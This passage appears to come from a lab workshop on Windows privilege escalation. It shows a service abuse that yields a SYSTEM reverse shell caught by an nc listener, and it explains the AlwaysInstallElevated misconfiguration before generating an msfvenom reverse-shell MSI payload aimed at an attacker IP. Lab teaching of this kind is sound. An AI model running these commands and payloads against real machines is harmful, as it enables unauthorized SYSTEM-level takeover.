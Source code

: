 ````
PS C:\Users\user\Downloads> 
````

Then we start the service:

````
PS C:\Users\user\Downloads> net start filepermsvc
The File Permissions Service service is starting.
PS C:\Users\user\Downloads> 
````

We get a reverse shell as the NT\SYSTEM user:
````
root@kali:~/LPEWorkshop# nc -lvnp 31337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.22.6.98.
Ncat: Connection from 10.22.6.98:63289.

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
C:\Windows\system32>whoami & hostname
whoami & hostname
nt authority\system
LPETestbed

C:\Windows\system32>
````

Next let's look at "Always install elevated"

From SharpUp we see: 

````
=== AlwaysInstallElevated Registry Keys ===

  HKLM:    1
  HKCU:    1
  ````

  This means that any install that is run will automatically elevate the privileges it runs with so that low privilege users can run installs without needing an administrator to come over to their workstation.
  
  To exploit this we just need to run an .msi installer.
  
  We generate the payload:
  ````
  root@kali:~/LPEWorkshop# msfvenom -p windows/shell_reverse_tcp LPORT=31337 LHOST=10.22.6.122 -f msi > Install.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
````
